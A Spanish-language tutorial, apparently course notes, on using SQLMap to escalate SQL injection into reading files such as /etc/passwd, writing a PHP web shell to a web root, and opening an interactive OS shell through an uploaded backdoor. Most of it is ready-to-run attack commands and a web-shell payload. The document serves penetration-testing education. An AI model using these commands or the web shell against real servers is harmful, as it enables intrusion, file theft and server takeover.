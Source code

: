 
# OS Exploitation con SQLMap

SQLMap permite explotar vulnerabilidades de SQL Injection para **leer y escribir archivos en el sistema anfitrión** y, si los privilegios lo permiten, obtener **ejecución de comandos en el sistema operativo**.

## **1. Lectura y escritura de archivos**

### **Lectura de archivos**

Es más común que la escritura, ya que esta última requiere permisos más elevados. En MySQL, leer archivos locales requiere los privilegios `LOAD DATA` e `INSERT`, lo que permite cargar el contenido en una tabla y posteriormente leerlo.

Ejemplo en SQL:

```sql
LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;
```

Para verificar si el usuario tiene privilegios de DBA:

```bash
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```

Si el resultado es `current user is DBA: True`, entonces se pueden leer archivos.

Ejemplo con SQLMap para leer `/etc/passwd`:

```bash
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

Si la lectura es exitosa, SQLMap guarda el archivo localmente en:

```
~/.sqlmap/output/www.example.com/files/_etc_passwd
```

Se puede visualizar con:

```bash
cat ~/.sqlmap/output/www.example.com/files/_etc_passwd
```

### **Escritura de archivos**

Es más restringida ya que permite escribir **web shells** para tomar el control del servidor. En MySQL, `--secure-file-priv` debe estar deshabilitado y el usuario debe tener permisos de escritura en el directorio destino.

Ejemplo de una web shell en PHP:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Para escribir el archivo en el servidor:

```bash
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

Para verificar la ejecución de comandos:

```bash
curl http://www.example.com/shell.php?cmd=ls+-la
```

Si la shell está funcional, devolverá el listado de archivos del directorio.

## **2. Ejecución de comandos en el sistema operativo**

SQLMap puede obtener una shell interactiva sin necesidad de subir una web shell manualmente. Para intentarlo:

```bash
sqlmap -u "http://www.example.com/?id=1" --os-shell
```

Si falla, se puede especificar una técnica diferente, como SQLi basada en errores:

```bash
sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```

En el proceso, SQLMap puede:

1. Preguntar por el lenguaje del servidor web (`PHP`, `ASP`, `JSP`, etc.).
2. Intentar encontrar automáticamente el **web root** (directorio donde se almacenan los archivos web).
3. Subir un **backdoor** y proporcionar una shell interactiva.

Cuando se obtiene acceso exitoso, se puede ejecutar comandos:

```bash
os-shell> ls -la
```

Si SQLMap encuentra problemas con la salida de los comandos, se puede probar con `--batch` para automatizar opciones.
